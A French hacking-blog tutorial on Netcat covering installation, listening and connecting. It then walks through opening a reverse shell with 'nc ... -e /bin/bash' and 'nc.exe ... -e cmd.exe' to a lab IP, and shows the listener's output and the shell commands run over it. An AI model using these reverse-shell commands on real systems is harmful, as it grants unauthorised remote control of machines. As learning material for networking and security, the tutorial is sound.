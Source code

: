 ```yaml
---
title: Netcat, un couteau suisse réseau
author: Davistar
layout: post
permalink: "/hacking/netcat.html"
category: hacking
---
```

![Netcat](/techlovers/assets/2018-10-24/image1netcat.jpg)

## Qu'est-ce que Netcat ?

Netcat (souvent abrégé en nc) est un utilitaire de réseau informatique permettant de lire et d'écrire sur des connexions réseau en utilisant TCP ou UDP. 
Netcat est conçu pour être un back-end fiable pouvant être utilisé directement ou facilement piloté par d'autres programmes et scripts. Parallèlement, il s'agit d'un outil de débogage et d'investigation réseau riche en fonctionnalités, car il peut générer pratiquement tout type de connexion dont l'utilisateur pourrait avoir besoin et dispose de nombreuses fonctionnalités intégrées.

Sa liste de fonctionnalités inclut l'analyse de port, le transfert de fichiers et l'écoute de port. Il peut également être utilisé comme porte dérobée.


## Installation de Netcat :

Netcat est tres simple d'installation:

### Installation Pour Linux :

{% highlight bash %}
$ sudo apt update && apt upgrade -y && apt install netcat -y
{% endhighlight %}

![installation](/techlovers/assets/2018-10-24/image2netcat.png)

### Installation Pour Windows :

Lien de téléchargement => [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

- Extraire l'archive
- Finir l'installation
- Optionnel : pour ceux qui desire juste taper nc dans le terminal, ajouter nc.exe dans l'environement de PATH Windows


## Utilisation de netcat :

### Pour afficher l'aide de netcat

{% highlight bash %}
$ sudo nc -h
{% endhighlight %}

### Pour passer netcat sous écoute :

> * -l = passe netcat en mode écoute
> * -v = pour rendre nectat plus verbeux
> * -p = pour specifier le port à écouter

{% highlight bash %}
$ sudo nc -lvp 444
listening on [any] 444 ...
{% endhighlight %}

![listen](/techlovers/assets/2018-10-24/image3netcat.png)


### Comment se connecter a une ip via netcat :

{% highlight bash %}
$ sudo nc <IP> <PORT>
{% endhighlight %}


### Comment prendre le contrôle d'un processus avec Netcat :

L'outil netcat permet d'effectuer des tâches pour le moins dangereuses même s'il ne represente aucun danger en lui même.

Nous allons voir comment prendre le contrôle du shell d'un système :

Tout d'abord, nous devons ecouter un port. Moi, je vais choisir le port 333.

Nous allons maintenant taper la commande pour ecouter notre port 333.

{% highlight bash %}
$ nc -lvp 333
listening on [any] 333 ...
{% endhighlight %}

On est maintenant sur écoute prêt à recevoir une connexion

Nous allons maintenant taper cette commande-ci pour se connecter à notre port avec un processus.

{% highlight bash %}
$ sudo nc 192.168.1.70 333 -e "/bin/bash"
{% endhighlight %}

Pour prendre le shell de windows, faites ceci:

{% highlight bash %}
C:\Users\Davistar\Desktop > nc.exe 192.168.1.70 333 -e cmd.exe
{% endhighlight %}

Une fois cette commande entrée, vous devez recevoir cela sur le terminal sous écoute.

{% highlight bash %}
$ nc -lvp 333
listening on [any] 333 ...
192.168.1.70: inverse host lookup failed: Unknown host
connect to [192.168.1.70] from (UNKNOWN) [192.168.1.70] 51414
{% endhighlight %}

Cela signifie que le client est bien connecté à votre machine, maintenant on peut exécuter toutes les commandes du shell.

Exemple :

{% highlight bash %}
ps  
  PID TTY          TIME CMD
 7604 pts/1    00:00:00 sudo
 7605 pts/1    00:00:00 bash
 7606 pts/1    00:00:00 ps
{% endhighlight %}

{% highlight bash %}
$ ls

aquatone
Desktop
Documents
Images
Musique
Public
Téléchargements
Templates
video.ogv
Vidéos
wordlist
{% endhighlight %}

{% highlight bash %}
help
GNU bash, version 4.4.23(1)-release (x86_64-pc-linux-gnu)
Ces commandes de shell sont définies de manière interne. Saisissez « help » pour voir cette liste.
Tapez « help nom » pour en savoir plus sur la fonction qui s'appelle « nom ».
Utilisez « info bash » pour en savoir plus sur le shell en général.
Utilisez « man -k » ou « info » pour en savoir plus sur les commandes qui
ne font pas partie de cette liste.

Une astérisque (*) à côté d'un nom signifie que la commande est désactivée.

 job_spec [&]                            history [-c] [-d décalage] [n] ou hi>
 (( expression ))                        if COMMANDES; then COMMANDES; [ elif>
 . nom_fichier [arguments]               jobs [-lnprs] [jobspec ...] ou jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] nom[=valeur] ...
 alias [-p] [nom[=valeur] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d délim] [-n nombre] [-O o>
 bind [-lpvsPSVX] [-m keymap] [-f nomf>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | rép]
 caller [expr]                           pwd [-LP]
 case MOT in [MOTIF [| MOTIF]...) COMM>  read [-ers] [-a tableau] [-d delim] >
 cd [-L|[-P [-e]] [-@]] [rép]            readarray [-n nombre] [-O origine] [>
 command [-pVv] commande [arg ...]       readonly [-aAf] [nom[=valeur] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NOM [in MOTS ... ;] do COMMAN>
 compopt [-o|+o option] [-DE] [nom ...>  set [-abefhkmnptuvxBCHP] [-o nom-opt>
 continue [n]                            shift [n]
 coproc [NOM] commande [redirections]    shopt [-pqsu] [-o] [nom_opt ...]
 declare [-aAfFgilnrtux] [-p] [nom[=va>  source nom_fichier [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f nomfichier] [>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a nom] [commande [argume>  true
 exit [n]                                type [-afptP] nom [nom ...]
 export [-fn] [nom[=valeur] ...] ou ex>  typeset [-aAfFgilnrtux] [-p] nom[=va>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [premier] [derni>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] nom [nom ...]
 for NOM [in MOTS ... ] ; do COMMANDES>  unset [-f] [-v] [-n] [nom ...]
 for (( exp1; exp2; exp3 )); do COMMAN>  until COMMANDES; do COMMANDES; done
 function nom { COMMANDES ; } ou nom (>  variables - Noms et significations d>
 getopts chaineopts nom [arg]            wait [-n] [id ...]
 hash [-lr] [-p nomchemin] [-dt] [nom >  while COMMANDES; do COMMANDES; done
 help [-dms] [motif ...]                 { COMMANDES ; }

{% endhighlight %}

Voilà nous avons l'intégralité du shell.

![screen2](/techlovers/assets/2018-10-24/image4netcat.png)